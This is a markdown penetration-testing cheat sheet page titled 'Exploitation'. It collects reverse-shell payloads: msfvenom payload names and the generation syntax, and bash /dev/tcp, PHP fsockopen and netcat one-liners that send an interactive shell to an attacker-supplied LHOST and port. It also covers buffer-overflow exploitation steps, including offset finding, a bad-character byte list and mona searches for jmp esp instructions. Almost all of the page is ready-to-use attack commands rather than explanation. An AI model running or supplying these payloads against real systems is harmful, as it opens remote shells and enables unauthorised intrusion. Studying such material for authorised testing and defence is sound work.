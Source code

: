 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Finding vulnerabilities and turning them into usable exploits.._

## MSFVenom Reverse Shell Payloads
### Generate Payloads

```bash
msfvenom -p $PAYLOAD LHOST=$LHOST LPORT=$LPORT [-e $ENCODER [-i $ROUNDS]] [-b $BADCHARS] [-f $FORMAT] [-o $FILENMAE]
```

### Payloads

| **Windows**   |                                   |
|:--------- 	|   -----------------------------:	|
|   Staged  	| ``windows/shell/reverse_tcp`` 	|
| Stageless 	| ``windows/shell_reverse_tcp`` 	|



| **Linux**     |                                   |
|:--------- 	|   -----------------------------:	|
|   32bit   	| ``linux/x86/shell_reverse_tcp`` 	|
| 64bit      	| ``linux/x64/shell_reverse_tcp`` 	|

#### Encoders
``x86/shikata_ga_nai``

## Bash Reverse Shells
```bash
0<&196;exec 196<>/dev/tcp/$LHOST/$LPORT; sh <&196 >&196 2>&196
```
```bash
bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1
```

## PHP Reverse Shells
### One Liner
```php
<?php $sock = fsockopen($LHOST,$LPORT); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes) ?>
```
### File Upload
Kali File Location: `/usr/share/webshells/php/php-reverse-shell.php` <sup><sub>[[archive](files/php-reverse-shell.php)]

## Netcat Reverse Shells
### Unix
```bash
nc -e /bin/sh $LHOST $LPORT
```

### OpenBSD
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $LHOST $PORT >/tmp/f
```

## Buffer Overflows

[Buffer Overflow POC](./assets/bof-poc.py)

[Stack Frame Cheatsheet](./assets/stack-frame-cheatsheet.png)

### 1. Finding the Return Address

Create a unique pattern:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l [no of bytes]
```

```bash
pwn cylic [no of bytes]
```

Crash the program, get the EIP at the that crashed it:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q [value of ra]
```

```bash
pwn cyclic -l [value of ra]
```

### 2. Bad Characters

A Character is defined as a 'bad' character if, when looking in the debugger's memory map, it is not found in buffer or it truncates the payload

```bash
badchars = "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

### 3. Finding Useful Instructions

**Finding opcodes from Assembly:**

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

i.e. jmp esp == “\xff\xe4”

**Finding occurances of opcodes in memory:**

```bash
!mona modules
```

- Find module with no DEP and ASLR (all except last column false)

```bash
!mona find -s "xff\xe4" -m target.dll
```

```bash
!mona find -s "\xff\xe4"
``` 
- use if nothing shows up, very slow and may crash idb

### Miscellaneous Tips
- Restart the debugger with each test
- Use nano
- Bad characters in instructions and addresses
- Set breakpoints
